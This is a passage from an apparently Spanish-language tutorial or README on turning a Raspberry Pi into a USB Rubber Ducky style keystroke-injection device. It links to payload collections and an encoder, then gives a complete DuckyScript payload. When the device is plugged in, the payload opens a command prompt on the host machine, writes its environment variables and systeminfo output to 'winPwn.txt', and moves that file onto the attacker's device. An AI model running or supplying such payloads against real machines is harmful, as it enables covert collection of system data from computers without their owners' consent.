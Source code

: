 </p>

## PAYLOADS

En el siguiente enlace se encuentran diferentes [scripts](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Payloads) predefinidos que se han generado anteriormente.

En este enlace es posible crear tus propios [Payloads](https://ducktoolkit.com/encode), incluso en el mismo bloc de notas puedes programar tus scripts.

Si quieres más información para entender este lenguaje, es bastante cómodo y en este enlace tienes la [información](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Duckyscript)

Por mi parte les dejo un `script` para almacenar información general de un dispositivo en nuestro dispositivo, este script debe ser guardado en el archivo `payload.dd`

```bash
DELAY 3500
GUI r
DELAY 200
STRING cmd
ENTER
DELAY 500
STRING echo [*] Obteniendo datos del sistema ... >> winPwn.txt
ENTER
DELAY 200
STRING set >> winPwn.txt
ENTER
STRING cls
ENTER
DELAY 200
STRING echo [*] Obteniendo informacion adicional ... >> winPwn.txt
ENTER
DELAY 200
STRING systeminfo >> winPwn.txt
ENTER
DELAY 800
STRING cls
ENTER
STRING echo [*] Informacion capturada con exito! >> winPwn.txt
ENTER
DELAY 200
STRING move winPwn.txt D:\winPwn.txt
ENTER
DELAY 300
STRING exit
ENTER
```

Finalmente desconectamos la Raspberry y ya está lista para el uso que deseamos, al conectarla en un dispositivo siempre y cuando todo este correcto, en este caso obtenemos la información de un dispositivo almacenado en nuestro dispositivo.

<p align="center">